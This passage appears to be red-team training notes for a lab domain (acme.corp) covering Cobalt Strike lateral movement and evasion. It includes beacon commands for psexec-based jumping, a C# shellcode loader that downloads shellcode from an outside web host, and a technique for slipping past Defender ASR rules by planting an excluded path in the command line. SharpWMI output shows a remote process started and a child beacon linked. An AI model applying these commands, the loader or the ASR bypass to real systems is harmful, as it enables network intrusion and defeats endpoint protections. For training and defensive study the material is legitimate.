 
In general, at this point - we should have relatively valid bypasses in place in order to move laterally against machines. This regularly can be completed with a simple use of Cobalt Strike's `jump` utility.

We must be running in the context of a the user who is a local admin on the machine we are jumping to, meaning we must utilize a bit of domain recon and Kerberos ticket forgery before performing a form of lateral movement.

```
beacon> jump psexec64 wkstn-2.acme.corp beacon-smb
```

However, in some cases, we may need to utilize other methods just in the rare case that there are yara rules in place to block activity.

The most applicable way to bypass this is to use our shellcode loader and giving it SMB shellcode, rather than regular HTTPS shellcode.

```C#
using (var client = new WebClient())
{
    // enable proxy
    client.Proxy = WebRequest.GetSystemWebProxy();
    client.UseDefaultCredentials = true;

    // set tls version relevant to proxy
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12 | SecurityProtocolType.Tls13;

    // change me
    shellcode = client.DownloadData("https://www.infinity-bank.com/sc_smb.bin"); <- Adjust for your hosted shellcode
};
```

ASR rules also exist to block, especially if we are using a tool such as SharpWMI.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/00e/d52/4ce/monitored.png)

We can bypass this by utilizing a command-line exclusion and having an excluded snippet of text somewhere in our code. Take the below CLI exclusion list as an example.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/5ed/a76/714/excluded.png)

We can add `:\Windows\ccmcache\` to a random line of our `execute-asasembly` command.

```
beacon> cd \\wkstn-1\c$\ProgramData\Microsoft\Search
beacon> upload C:\Payloads\freeloader.exe
beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=WKSTN-1 command="C:\ProgramData\Microsoft\Search\freeloader.exe --path C:\Windows\ccmcache\cache"
```

```
[*] Host                           : WKSTN-1
[*] Command                        : C:\ProgramData\Microsoft\Search\freeloader.exe --path C:\Windows\ccmcache\cache
[*] Creation of process returned   : 0
[*] Process ID                     : 264

beacon> link wkstn-1.acme.corp TSVCPIPE-8401022c-70ed-48b4-8231-7461af611337
[+] established link to child beacon: 10.10.120.101
```